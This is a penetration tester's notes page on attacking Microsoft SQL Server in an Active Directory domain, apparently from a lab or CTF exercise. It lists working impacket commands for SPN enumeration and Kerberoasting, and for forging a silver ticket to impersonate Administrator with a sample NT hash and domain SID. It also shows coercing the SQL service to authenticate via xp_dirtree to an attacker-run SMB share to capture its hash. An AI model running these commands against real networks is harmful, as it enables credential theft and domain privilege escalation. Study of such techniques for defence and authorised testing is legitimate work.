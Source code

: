 # MSSQL

### **Enumerate MSSQL**

Let's check if there are users with SPNs on the found MSSQL servers

```bash
impacket-GetUserSPNs <DOMAIN MACHINE>/<USER>:<PASSWD>
```

<figure><img src="../.gitbook/assets/Pasted image 20230830104754.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
IMPACKET-GetUserSPNS -target-domain <DOMAIN> <DOMAIN MACCHINE>/<USER>:<PASSWD>
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20230830110943.png" alt=""><figcaption></figcaption></figure>

### **Silver Ticket Attack**

To perform the silver ticket attack against the SQL service we need three things:

1. The NTLM hash of the password of the SqlSvc account. (TGT?)
2. The domain SID.

{% code overflow="wrap" %}
```basH
impacket-getPac -targetUser <USER> <DOMAIN>/<USER>:<PASS>
```
{% endcode %}

3. The SPN that the SqlSvc account is using.

{% code overflow="wrap" %}
```bash
GetUserSPNs.py <DOMAIN>/<USER>:<PASS> -k -dc-ip <DC> -no-pass -request
```
{% endcode %}

We can now proceed to obtain the silver ticket

{% code overflow="wrap" %}
```bash
impacket-ticketer -spn <User>/<Machine> -nthash <sqlsvc NTLM hash> -domain-sid <SID> -domain <Domain> administrator
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20230621120729.png" alt=""><figcaption></figcaption></figure>

Import the ticket

```bash
export KRB5CCNAME=administrator.ccache
```

If everything works with klist, you should see this

<figure><img src="../.gitbook/assets/Pasted image 20230621121052.png" alt=""><figcaption></figcaption></figure>

Connect to the machine

```bash
impacket-mssqlclient -k <macchina>
```

### Catch Service account hash

No special privilges. Let's see what user the db is running as by issuing xp\_dirtree while catching the response with impacket-smbserver:

```
mkdir share
impacket-smbserver share share -smb2support

...
exec xp_dirtree '\10.9.1.15share'

...
[*] User NAGOYAsvc_mssql authenticated successfully
...
```

Since the sql server is running in the context of the service user, we can impersonate the administator using silver tickets! You can get the NTHASH of "Service1" using python or online-tools. The Domain SID you can get via `Get-AdDomain`in powershell.

{% code overflow="wrap" %}
```
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator

export KRB5CCNAME=$PWD/Administrator.ccache
klist
...
05/01/2023 17:10:13  04/28/2033 17:10:13  krbtgt/NAGOYA-INDUSTRIES.COM@NAGOYA-INDUSTRIES.COM
```
{% endcode %}

Now we can use the silver ticket to connect via Kerberos.

/etc/krb5user.conf:

```
[libdefaults]
	default_realm = NAGOYA-INDUSTRIES.COM
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
	fcc-mit-ticketflags = true

[realms]	
	NAGOYA-INDUSTRIES.COM = {
		kdc = nagoya.nagoya-industries.com
	}

[domain_realm]
	.nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```

/etc/hosts:

```
127.0.0.1       localhost nagoya.nagoya-industries.com NAGOYA-INDUSTRIES.COM
```

Connect:

```
impacket-mssqlclient -k nagoya.nagoya-industries.com
```
